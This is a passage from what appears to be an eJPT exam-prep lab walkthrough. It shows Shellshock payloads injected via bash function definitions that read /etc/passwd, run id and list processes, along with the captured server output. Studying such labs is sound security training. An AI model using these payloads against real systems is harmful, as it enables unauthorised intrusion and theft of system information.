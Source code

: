 #### **Step 7: Payload Execution and Results**

**🔥 Test 1: Password File Enumeration**
```bash
# Payload: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
# Response Body Contains:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin

# ✅ SUCCESS: Complete /etc/passwd file extracted!
```

**🔥 Test 2: User Identity Verification**
```bash
# Payload: () { :; }; echo; echo; /bin/bash -c 'id'
# Response Body Contains:
uid=1(daemon) gid=1(daemon) groups=1(daemon)

# ✅ SUCCESS: Running as daemon user confirmed!
```

**🔥 Test 3: Process Enumeration**
```bash
# Payload: () { :; }; echo; echo; /bin/bash -c 'ps -ef'
# Response Body Contains:
UID    PID  PPID  C STIME TTY    TIME CMD
root     1     0  0 06:21 ?   00:00:00 /usr/bin/python
root    10    17  0 06:21 ?   00:00:00 /bin/bash /root/startup.sh
daemon  16    10  0 06:21 ?   00:00:00 /opt/apache/bin/httpd -X
daemon  19    18  0 06:21 ?   00:00:00 /opt/apache/bin/httpd -X
daemon 1384  1383  0 06:41 ?   00:00:00 ps -ef

# ✅ SUCCESS: Complete process list obtained!
```

---

## 🎯 eJPT Exam Focus (90% Exam Importance!)

